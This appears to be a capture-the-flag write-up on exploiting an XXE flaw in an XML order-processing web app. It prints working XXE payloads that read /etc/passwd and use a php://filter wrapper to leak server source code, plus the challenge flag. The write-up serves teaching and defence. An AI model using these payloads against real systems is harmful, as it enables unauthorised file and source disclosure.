



# 🧩 Challenge: Not so xmiling now


---

## Description

The challenge provides a web-based **XML Order Processing System** where users can submit XML input. The system parses the XML and displays the extracted fields.

---

## Application Preview



---

## Initial Analysis

At first glance, the application appears to simply parse XML input.



However, accepting raw XML input is a strong indicator of:

> **XML External Entity (XXE) vulnerability**

This happens when the XML parser allows external entity resolution.

---

## Objective

* Confirm XXE vulnerability
* Exploit it to read sensitive files
* Retrieve the flag

---

## Testing for XXE

### Payload Used

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<order>
  <customer>&xxe;</customer>
  <item>Laptop</item>
  <quantity>1</quantity>
  <price>999.99</price>
</order>
```

---

## Result

The response displayed the contents of `/etc/passwd`.

This confirms:

* ✅ External entity processing enabled
* ✅ XXE vulnerability present
* ✅ Arbitrary file read possible

---

## Advanced Exploitation (Source Code Disclosure)

After confirming XXE, the next step was to read the server’s source code.

### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/index.php">
]>
<order>
  <customer>&xxe;</customer>
  <item>Laptop</item>
  <quantity>1</quantity>
  <price>999.99</price>
</order>
```

---

## Decoding the Output

The response returned a long Base64-encoded string.

Steps taken:

1. Copied the encoded output
2. Used **CyberChef** to decode Base64
3. Inspected the decoded content

At the bottom of the decoded file, the flag was revealed.

---

## Decoded Result



> *(Flag visible at the bottom)*

---

## Final Flag

```text
ictff8{XXE_w1th_php_f1lt3r}
```

---

## Tools Used

* Web Browser
* CyberChef (Base64 decoding)

---

## Skills Developed

* Identifying XXE vulnerabilities
* Crafting malicious XML payloads
* Exploiting file disclosure via `php://filter`
* Understanding XML parser behavior

---

## Key Takeaways

* Always disable external entity resolution in XML parsers
* XXE can lead to:

  * File disclosure
  * SSRF
  * RCE (in advanced cases)
* PHP stream wrappers (`php://filter`) are powerful in exploitation

---
